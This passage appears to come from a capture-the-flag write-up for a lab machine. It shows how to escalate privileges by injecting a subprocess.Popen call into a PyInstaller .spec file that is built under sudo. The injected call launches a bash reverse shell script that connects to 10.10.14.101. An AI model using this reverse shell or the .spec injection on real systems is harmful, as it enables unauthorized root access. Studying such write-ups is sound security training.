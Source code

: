 ```bash
    a.binaries,
    a.zipfiles,
    a.datas,
    [],
    name='qreader',
    debug=False,
    bootloader_ignore_signals=False,
    strip=False,
    upx=True,
    upx_exclude=[],
    runtime_tmpdir=None,
    console=True,
    disable_windowed_traceback=False,
    argv_emulation=False,
    target_arch=None,
    codesign_identity=None,
    entitlements_file=None,
)
```

Now that we have a proper `.spec` file, we can begin to make small changes that might allow us to execute actions as root. 

### Subprocess execution in pyinstaller .spec file

The pyinstaller documents appear to suggest this .spec file can also interpret python code. And so, I make a simple addition to it that will execute a `.sh` script and, in that script, I provide a simple reverse shell.

rev.sh:
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.101/18 0>&1
```
At the top of the `.spec` file I include imports and a `popen` command:

```python
tkeller@socket:/tmp/1$ head qreader.spec 
# -*- mode: python ; coding: utf-8 -*-


block_cipher = None

import subprocess

subprocess.Popen('/tmp/rev.sh', shell=True)

a = Analysis(
```

Now upon calling `build`, pyinstaller should invoke the .spec file and subsequently open my `rev.sh` as root, giving me an interactive session.

```bash
tkeller@socket:/tmp/$ sudo /usr/local/sbin/build-installer.sh build qreader.spec 
124 INFO: PyInstaller: 5.6.2
124 INFO: Python: 3.10.6
127 INFO: Platform: Linux-5.15.0-67-generic-x86_64-with-glibc2.35
130 INFO: UPX is not available.
131 INFO: Extending PYTHONPATH with paths
['/tmp/']
<...SNIP...>
8829 INFO: Building EXE from EXE-00.toc completed successfully.
tkeller@socket:/tmp$
```
